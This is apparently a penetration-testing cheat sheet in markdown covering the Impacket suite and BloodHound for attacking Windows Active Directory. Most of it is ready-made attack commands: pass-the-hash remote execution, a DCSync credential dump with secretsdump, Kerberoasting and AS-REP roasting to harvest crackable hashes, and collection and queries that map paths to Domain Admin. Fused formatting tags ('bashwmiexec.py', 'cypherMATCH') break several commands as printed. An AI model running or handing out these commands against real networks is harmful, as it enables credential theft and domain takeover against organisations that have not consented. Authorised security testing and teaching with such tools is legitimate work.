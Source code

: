 Impacket Suite

Overview
Impacket is a collection of Python classes for working with network protocols. It's essential for Windows penetration testing.

Key Tools

PSExec.py
Remote command execution via SMB

psexec.py domain/user:password@target
psexec.py -hashes :ntlmhash domain/user@target
WMIExec.py

Remote execution via WMI
bashwmiexec.py domain/user:password@target
wmiexec.py -hashes :ntlmhash domain/user@target
SMBExec.py

Remote execution via SMB
bashsmbexec.py domain/user:password@target
smbexec.py -hashes :ntlmhash domain/user@target

DCSync Attack
bashsecretsdump.py domain/user:password@dc-ip
secretsdump.py -hashes :ntlmhash domain/user@dc-ip

Kerberoasting
bashGetUserSPNs.py domain/user:password -dc-ip dc-ip -request

ASREPRoasting
bashGetNPUsers.py domain/ -usersfile users.txt -format hashcat -outputfile hashes.txt


Installation
bashpip install impacket
 or
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip install .

 Windows-Tools/BloodHound.md

markdown
 BloodHound

 Overview
BloodHound is a tool for analyzing Active Directory security and finding attack paths.

 Components
- BloodHound: Neo4j-based analysis engine
- SharpHound: Data collector for Windows
- BloodHound.py: Python-based collector

 Data Collection

 SharpHound (Windows)
powershell
.\SharpHound.exe -c All -d domain.local
.\SharpHound.exe --CollectionMethod All --Domain domain.local
BloodHound.py (Linux)
bashbloodhound-python -u username -p password -ns dc-ip -d domain.local -c all
Analysis Queries
Find Domain Admins
cypherMATCH (u:User)-[:MemberOf*1..]->(g:Group {name:"DOMAIN ADMINS@DOMAIN.LOCAL"}) RETURN u.name
Find Shortest Path to Domain Admin
cypherMATCH (u:User {name:"USERNAME@DOMAIN.LOCAL"}), (g:Group {name:"DOMAIN ADMINS@DOMAIN.LOCAL"}), p=shortestPath((u)-[*1..]->(g)) RETURN p
Find Kerberoastable Users
cypherMATCH (u:User {hasspn:true}) RETURN u.name
Installation
bash Neo4j
sudo apt install neo4j
 BloodHound
sudo apt install bloodhound
 Python collector
pip install bloodhound
